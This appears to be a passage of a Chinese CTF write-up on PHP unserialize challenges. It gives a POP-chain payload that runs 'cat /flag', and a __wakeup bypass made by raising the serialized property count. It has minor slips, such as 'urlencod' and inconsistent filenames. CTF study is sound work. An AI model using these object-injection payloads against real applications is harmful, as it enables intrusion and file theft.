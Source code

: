 Ha->__destruct->Love  到 Rd->__call->var1 到 Er->__set->$value($this->flag)

##### 其他条件

$arg[0]需要一个键名POC，且值为"1111"

start2="11111"

flag的值更改为文件查看命令cat /flag

##### 将原本的代码复制下来之后，在后面加上

直接在类里对flag和start2赋值

$a=new Ha();

$a->start1=new Rd();

$a->start=['POC'=>'1111'];

$a->start1->cl=new Er();

echo urlencod(serialize($a));

将得到的字符串赋值给Ha_rde_r，通过get方法上传

#### ez_ez_unserialize

看到题目中，construct函数让x类中的x赋值，wakeup让x重新赋值为_FILE_

所以我们需要绕过wakeup函数，

而一个经典的绕过方法便是序列化的中的成员数大于实际成员数

先创建一个含x的实例，将实例中的x赋值为flllllag.php

进行序列化得到结果

O:1:"X":1:{s:1:"x";s:13:"fllllllag.php";}

之后将其修改为

O:1:"X":2:{s:1:"x";s:13:"fllllllag.php";}

get传参即可
